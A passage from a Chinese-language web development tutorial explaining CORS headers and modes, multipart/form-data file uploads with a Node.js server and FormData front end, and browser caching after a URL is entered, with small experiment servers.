Host: crossdomain.com
Referer: http://my.com/index.html
Origin: http://my.com          ← 浏览器自动加，JS 改不了
```

2、服务器收到请求后，看到 Origin，服务器决定是否允许某个源来读我，若允许则在响应头加上 Access-Control-Allow-Origin

```
Access-Control-Allow-Origin: http://a.com    ← 允许哪个源（或 * 表示所有）
Access-Control-Allow-Credentials: true       ← 是否允许带 Cookie
```

3、浏览器检查响应头，若匹配则放行，前端拿到数据；否则拦截


完整握手：

```
浏览器: Origin: http://my.com                    "我是 my.com，能读你吗？"
服务器: Access-Control-Allow-Origin: http://my.com   "可以"
浏览器: 比对两者 → 一致 → 把响应交给 JS
```





#### CORS 三种模式

cors有三种模式

```
① 简单请求          → 请求方直接发，服务器事后表态
② 需要预检的请求     → 先问后发，服务器要预先批准
③ 附带身份凭证的请求 → 带 Cookie，服务器要额外单独批准
```

3可以与1和2进行组合

```
简单请求 + 带 Cookie   → 直接发，但需要 Allow-Credentials
预检请求 + 带 Cookie   → 预检和真实请求都带 Cookie，都需要 Allow-Credentials
```


简单请求的判定：

方法只能是：

```
GET  /  POST  /  HEAD
```

请求头不能有"不安全"字段，安全字段（CORS 安全清单）实际只需记住 4 个：

```
Accept
Accept-Language
Content-Language
Content-Type
```

如果有 `Content-Type`，只能是这三个值

```
text/plain
multipart/form-data
application/x-www-form-urlencoded
```


#### CORS前端语法

跨域 ajax 默认不发送 Cookie，即使浏览器里存着。

这会导致一个经典现象：同域调接口好好的，换成跨域就变成"未登录"。

前端必须显式开启（两种写法，都要记）

```js
// fetch
fetch(url, { credentials: 'include' })

// XMLHttpRequest
const xhr = new XMLHttpRequest()
xhr.withCredentials = true

// axios（实际最常用）
axios.defaults.withCredentials = true
```


服务器必须显式允许

```
Access-Control-Allow-Credentials: true
```

服务端典型实现（理解一下后端在干什么就行）：

```js
// 维护白名单，命中才回显具体的源
const whitelist = ['http://my.com', 'http://admin.my.com']
const origin = req.headers.origin
if (whitelist.includes(origin)) {
  res.setHeader('Access-Control-Allow-Origin', origin)   // 回显，不是 *
  res.setHeader('Access-Control-Allow-Credentials', 'true')
}
```


## 文件上传


### 是什么

文件上传 不是新协议、不是新技术，它就是一次普通的 POST 请求，只不过请求体里装的是二进制数据。

HTTP 从来没有"上传"这个功能，只有"发送请求体"。所谓上传，是大家约定俗成的一套请求体编码格式。


### 必须是 multipart/form-data

请求体一共就三种常见编码方式，对比一下就懂了：

| 编码方式                            | 长相                 | 能装文件吗                                         | 用在哪       |
| ----------------------------------- | -------------------- | -------------------------------------------------- | ------------ |
| `application/x-www-form-urlencoded` | `a=1&b=2`（URL编码） | ❌ 二进制转义后体积暴涨 3 倍，且无法表达文件名/类型 | 普通表单     |
| `application/json`                  | `{"a":1}`（纯文本）  | ❌ JSON 规范不允许裸二进制                          | 现代接口主流 |
| `multipart/form-data`               | 定界符分割的多段消息 | ✅                                                  | 文件上传     |

**核心矛盾**：前两种都是"纯文本 + 用特殊字符（`&`、`"`）做分隔"。而二进制文件里什么字节都可能出现，用固定字符分隔必然冲突。

设计答案：临时造一个"绝对不会在文件里出现"的随机长字符串当分隔符 —— 这就是 **boundary（定界符）**。


### 报文结构解剖（背这个结构就够了）

点击上传图片后，客户端发出的请求里的载荷如下所示：

```
POST /api/upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
                                   ↑ 请求头里先声明"我用哪个定界符"

------WebKitFormBoundary7MA4YWxkTrZu0gW      ← 分割线（前面多两个 -）
Content-Disposition: form-data; name="file"; filename="小仙女.jpg"   ← 字段名 + 原始文件名
Content-Type: image/jpeg                      ← 这个文件的 MIME 类型
                                              ← 空行！头和体的分界
(文件二进制数据)
------WebKitFormBoundary7MA4YWxkTrZu0gW      ← 下一段
Content-Disposition: form-data; name="username"
                                              ← 普通字段没有 filename、没有 Content-Type
admin
------WebKitFormBoundary7MA4YWxkTrZu0gW--    ← 结尾多两个 -，表示结束
```


上面http报文中，Content-Disposition行开始的整个 multipart 内容就是请求体

```
请求行   POST /api/user/login HTTP/1.1        POST /api/upload HTTP/1.1
请求头   Content-Type: application/json       Content-Type: multipart/form-data; boundary=----WebKit...
请求体   {"loginId":"admin","loginPwd":"123"} ------WebKit...
                                              [图片二进制]
                                              ------WebKit...
                                              admin          ← 就在这里
                                              ------WebKit----
```


完整代码章节截图

具体效果，F12 → 网络 → 上传请求 → 载荷



载荷里没有 [图片二进制]数据是因为**DevTools 故意不显示**，图片是二进制字节，比如 `FF D8 FF E0 00 10 4A 46 49 46…`，显示出来对人类没有意义，甚至会让整个面板乱码崩掉。所以 Chrome 在文本视图里把二进制 part 的 body 留空


**boundary 在请求头声明**，在请求体使用 —— 服务器靠它才知道怎么切




每一段本质就是一个键值对，文件段比普通段多了 `filename` 和 `Content-Type`

文件和普通字段可以混在一个请求里（这就是为什么它叫 multi-part）


### 语法：只需要会 FormData

```html
<!-- HTML：只需要一个 file input -->
<input type="file" id="fileInput" />
<button id="btn">上传</button>
```

```js
// JS：DOM 操作 + FormData 组装 + 发送
btn.onclick = async () => {
    
  
  // 现实工作中，永远不会手写 boundary，只需要这几行
  const fd = new FormData();  
  fd.append('file', fileInput.files[0]);  // 从 input 取文件对象
  fd.append('username', 'admin');  // 普通字段，可以混着传

  await fetch('/api/upload', { method: 'POST', body: fd });
    // axios 写法：axios.post('/api/upload', fd)
};
```


`FormData` 是浏览器内置的类，专门用来模拟 HTML 表单提交的数据格式（`multipart/form-data`）。

可以把它理解为一个 **键值对容器**，`append` 就是往里添加字段，最终交给 `fetch` 发出去。

ASCll图示：

```
浏览器内存
┌─────────────────────────────┐
│  FormData 实例 (fd)         │
│  ┌──────────┬─────────────┐ │
│  │  key     │  value      │ │
│  ├──────────┼─────────────┤ │
│  │ 'file'   │ File对象    │ │  ← fd.append('file', fileInput.files[0])
│  │          │ (二进制数据) │ │
│  ├──────────┼─────────────┤ │
│  │'username'│ 'admin'     │ │  ← fd.append('username', 'admin')
│  └──────────┴─────────────┘ │
└─────────────────────────────┘
          │
          │ fetch('/api/upload', { method:'POST', body: fd })
          ▼
┌─────────────────────────────┐
│  HTTP 请求体 (自动编码)       │
│  Content-Type:              │
│  multipart/form-data;       │
│  boundary=----abc123        │
│  -------------------------  │
│  ------abc123               │
│  name="file"; filename="x"  │
│  [二进制内容...]             │
│  ------abc123               │
│  name="username"            │
│  admin                      │
│  ------abc123--             │
└─────────────────────────────┘
          │
          ▼
       后端接口
```


手动写headers，没有 boundary，浏览器就不再自动补，服务器拿不到分隔符 → **必定解析失败**。

```js
// ❌ 千万不要这样写
fetch('/api/upload', {
  method: 'POST',
  headers: { 'Content-Type': 'multipart/form-data' },  // 手动设置 = 丢掉 boundary
  body: fd
});
```


### 上传设计模式



**为什么这样设计**（这是理解重点）：

- 文件一旦上传完，它就变成了一个**普通的 URL 字符串**，后续注册接口只需传 JSON，不用再碰 multipart
- 用户选完图能**立即预览**，体验好
- 一个站点只需要**一个统一上传接口**,`/api/upload`，所有业务复用
- 表单校验失败重填时，文件不用重传


### 文件上传完整例子

#### 服务器（Node.js）：

```js
import http from 'node:http';
import fs from 'node:fs';
import path from 'node:path';
import crypto from 'node:crypto';
import { fileURLToPath } from 'node:url';

const __dirname = path.dirname(fileURLToPath(import.meta.url));
const UPLOAD_DIR = path.join(__dirname, 'uploads'); // 上传的文件放这里
const PUBLIC_DIR = path.join(__dirname, 'public');  // 前端 HTML 放这里
fs.mkdirSync(UPLOAD_DIR, { recursive: true });

const MAX_SIZE = 1024 * 1024; // 1MB
const ALLOW_EXT = ['.jpg', '.jpeg', '.png', '.gif', '.webp', '.bmp'];

/**
 * 解析 multipart/form-data，把定界符切开的消息还原成键值对
 * @param {Buffer} buf - 请求体的二进制数据
 * @param {string} boundary - multipart/form-data 的分隔符
 * @returns {Array<{name: string, filename?: string, contentType?: string, body: Buffer}>} - 解析后的各个部分数据
 */
function parseMultipart(buf, boundary) {
  const delimiter = Buffer.from(`--${boundary}`);
  const parts = [];
  let start = buf.indexOf(delimiter);
  while (start !== -1) {
    const from = start + delimiter.length;
    if (buf.subarray(from, from + 2).toString() === '--') break; // 结束标记
    const next = buf.indexOf(delimiter, from);
    if (next === -1) break;
    const chunk = buf.subarray(from + 2, next - 2); // 去掉首尾 \r\n
    const sep = chunk.indexOf('\r\n\r\n');           // 空行分隔头和体
    const headers = chunk.subarray(0, sep).toString('utf8');
    const body = chunk.subarray(sep + 4);
    parts.push({
      name:        /name="([^"]*)"/.exec(headers)?.[1],
      filename:    /filename="([^"]*)"/.exec(headers)?.[1],
      contentType: /Content-Type:\s*(\S+)/i.exec(headers)?.[1],
      body,
    });
    start = next;
  }
  return parts;
}

/**
 * 读取 HTTP 请求体
 * @param {import('http').IncomingMessage} req - HTTP 请求对象
 * @returns {Promise<Buffer>} - 请求体的二进制数据
 */
function readBody(req) {
  return new Promise((resolve, reject) => {
    const chunks = [];
    let size = 0;
    req.on('data', (c) => {
      size += c.length;
      if (size > MAX_SIZE * 2) { req.destroy(); reject(new Error('too large')); return; }
      chunks.push(c);
    });
    req.on('end', () => resolve(Buffer.concat(chunks)));
    req.on('error', reject);
  });
}

/**
 * 发送 JSON 响应
 * @param {import('http').ServerResponse} res - HTTP 响应对象
 * @param {number} code - HTTP 状态码
 * @param {object} body - 要返回的 JSON 对象
 */
function json(res, code, body) {
  res.writeHead(code, { 'Content-Type': 'application/json; charset=utf-8' });
  res.end(JSON.stringify(body));
}

// 创建 HTTP 服务器
http.createServer(async (req, res) => {
  const url = new URL(req.url, `http://${req.headers.host}`);
  const pathname = decodeURIComponent(url.pathname);

  // 上传接口
  if (pathname === '/api/upload' && req.method === 'POST') {
    const ct = req.headers['content-type'] || '';
    const boundary = /boundary=(.+)$/.exec(ct)?.[1];
    if (!boundary) return json(res, 400, { code: 400, msg: '不是 multipart/form-data' });

    const buf = await readBody(req).catch(() => null);
    if (!buf) return json(res, 413, { code: 413, msg: '请求体过大' });

    const parts = parseMultipart(buf, boundary);
    const filePart = parts.find((p) => p.name === 'file' && p.filename);
    if (!filePart) return json(res, 400, { code: 400, msg: '缺少 file 字段' });
    if (filePart.body.length > MAX_SIZE) return json(res, 413, { code: 413, msg: '文件超过 1MB' });

    const ext = path.extname(filePart.filename).toLowerCase();
    if (!ALLOW_EXT.includes(ext)) return json(res, 400, { code: 400, msg: '不支持的文件类型' });

    // 用随机名落盘，避免路径穿越
    const saveName = crypto.randomBytes(8).toString('hex') + ext;
    fs.writeFileSync(path.join(UPLOAD_DIR, saveName), filePart.body);

    return json(res, 200, {
      code: 0,
      data: {
        url: `http://localhost:8000/uploads/${saveName}`,
        原始文件名: filePart.filename,
        文件类型: filePart.contentType,
        字节数: filePart.body.length,
        定界符: boundary,
        普通字段: parts.filter((p) => !p.filename).map((p) => `${p.name}=${p.body.toString('utf8')}`),
      },
    });
  }

  // 已上传的文件的访问
  if (pathname.startsWith('/uploads/')) {
    const filePath = path.join(UPLOAD_DIR, path.basename(pathname));
    if (fs.existsSync(filePath)) {
      res.writeHead(200, { 'Content-Type': 'application/octet-stream' });
      return res.end(fs.readFileSync(filePath));
    }
  }

  // 前端静态页
  if (pathname === '/') {
    res.writeHead(200, { 'Content-Type': 'text/html; charset=utf-8' });
    return res.end(fs.readFileSync(path.join(PUBLIC_DIR, 'index.html')));
  }

  res.writeHead(404); res.end('Not Found');

}).listen(8000, () => console.log('http://localhost:8000'));
```


#### 前端（最小 HTML 页面）：

```html
<!DOCTYPE html>
<html lang="zh-CN">
<head><meta charset="UTF-8"><title>文件上传实验</title></head>
<body>
  <input type="file" id="file" accept="image/*">
  <input type="text" id="username" value="admin">
  <button id="btnUpload">上传</button>
  <pre id="out"></pre>

  <script>
    document.getElementById('btnUpload').onclick = async () => {
      const f = document.getElementById('file').files[0];
      if (!f) return;
      const fd = new FormData();
      fd.append('file', f);
      fd.append('username', document.getElementById('username').value);
      // 不要手动设置 Content-Type，否则 boundary 会丢失
      const res = await fetch('/api/upload', { method: 'POST', body: fd });
      document.getElementById('out').textContent = JSON.stringify(await res.json(), null, 2);
    };
  </script>
</body>
</html>
```


#### 现象

上传前：



上传后：



点开网络查看请求头



请求标头处可以清楚的看到分隔符


查看请求体里携带的载荷 



→ 查看源代码


和上面的报文结构一致，文件的原始二进制数据看不见

来自服务器的响应信息：




## 输入URL地址之后发生了什么



**1、缓存在请求之前** —— 这是最容易答漏的一步。强缓存命中时，**网络请求根本不会发出**，DevTools 里显示 `(from disk cache)`，Size 列不是字节数。

实验：`/api/cached` 返回 `Cache-Control: max-age=30`，连点两次"请求强缓存资源"按钮，你会看到**两次时间戳完全一样**（服务器终端也没有第二条日志）—— 证明第二次压根没发请求。

下面实验4的中，服务器对于`/api/cached`这个请求进行了如下处理：

```js
res.writeHead(200, {
  'Content-Type': 'text/plain; charset=utf-8',
  'Cache-Control': 'max-age=30',   // ← 这里，强缓存指令，响应头告诉浏览器"30秒内别再来问我"
});
```

交互过程：

```
第一次请求（服务器参与）
  浏览器 → GET /api/cached → 服务器
  服务器 → 200 OK + Cache-Control: max-age=30 → 浏览器
  浏览器 → 把响应体存入磁盘，记下过期时间

第二次请求（服务器不知情）
  浏览器 → 查磁盘缓存 → 未过期
  浏览器 → 直接返回缓存内容，请求从未发出
  服务器 → 没有收到任何请求，日志里没有记录
```


**2、浏览器自动加了什么头** —— 实验 4 的 `/api/echo` 直接回显（第一个按钮），实测：

```
{ "method": "GET", "httpVersion": "1.1",
  "headers": { "host": "...", "connection": "keep-alive", "accept": "*/*",
               "accept-encoding": "gzip, deflate", "user-agent": "..." } }
```

`host` 决定虚拟主机、`connection: keep-alive` 决定 TCP 复用、`accept-encoding` 决定压缩、`cookie` 决定身份 —— **全是浏览器替你加的**。




#### 实验4完整代码

服务器（Node.js）

```js
import http from 'node:http';
import { fileURLToPath } from 'node:url';
import path from 'node:path';
import fs from 'node:fs';

const __dirname = path.dirname(fileURLToPath(import.meta.url));
const PUBLIC_DIR = path.join(__dirname, 'public');
const PORT = 8001;

const server = http.createServer((req, res) => {
  const url = new URL(req.url, `http://${req.headers.host}`);
  const pathname = decodeURIComponent(url.pathname);

  // 回显浏览器真实发出的请求行 + 请求头
  if (pathname === '/api/echo') {
    res.writeHead(200, { 'Content-Type': 'application/json; charset=utf-8' });
    return res.end(JSON.stringify({
      method: req.method,
      url: req.url,
      httpVersion: req.httpVersion,
      headers: req.headers,
    }, null, 2));
  }

  // 强缓存：响应头告诉浏览器"30秒内别再来问我"
  if (pathname === '/api/cached') {
    res.writeHead(200, {
      'Content-Type': 'text/plain; charset=utf-8',
      'Cache-Control': 'max-age=30',          // 关键：强缓存指令
    });
    console.log(`[${new Date().toLocaleTimeString()}] /api/cached 被真正请求了`);
    return res.end(`服务器生成时间：${new Date().toLocaleTimeString()}`);
  }

  // 静态页面
  if (pathname === '/' || pathname === '/index.html') {
    const filePath = path.join(PUBLIC_DIR, 'index.html');
    if (fs.existsSync(filePath)) {
      res.writeHead(200, { 'Content-Type': 'text/html; charset=utf-8' });
      return res.end(fs.readFileSync(filePath));
    }
  }

  res.writeHead(404);
  res.end('404');
});

server.listen(PORT, () => console.log(`实验4服务器：http://localhost:${PORT}`));

```

前端（HTML)

```html
<!doctype html>
<html lang="zh-CN">
  <head>
    <meta charset="UTF-8" />
    <title>实验4：输入 URL 之后</title>
    <style>
      body {
        font-family: system-ui, "Microsoft YaHei", sans-serif;
        max-width: 820px;
        margin: 24px auto;
        padding: 0 16px;
      }
      pre {
        background: #f6f8fa;
        padding: 10px;
        border-radius: 6px;
        overflow: auto;
        max-height: 300px;
        font-size: 12px;
      }
      button {
        padding: 6px 12px;
        margin-right: 8px;
        cursor: pointer;
      }
    </style>
  </head>
  <body>
    <h2>实验 4：输入 URL 之后</h2>
    <button id="btnEcho">看浏览器自动加了哪些请求头</button>
    <button id="btnCache">请求强缓存资源（连点两次）</button>
    <pre id="urlOut"></pre>

    <script>
      const $ = (id) => document.getElementById(id);

      $("btnEcho").onclick = async () => {
        const data = await (await fetch("/api/echo")).json();
        $("urlOut").textContent = JSON.stringify(data, null, 2);
      };

      $("btnCache").onclick = async () => {
        const text = await (await fetch("/api/cached")).text();
        $("urlOut").textContent +=
          `\n${new Date().toLocaleTimeString()} 拿到：${text}`;
      };
    </script>
  </body>
</html>
```


#### 现象

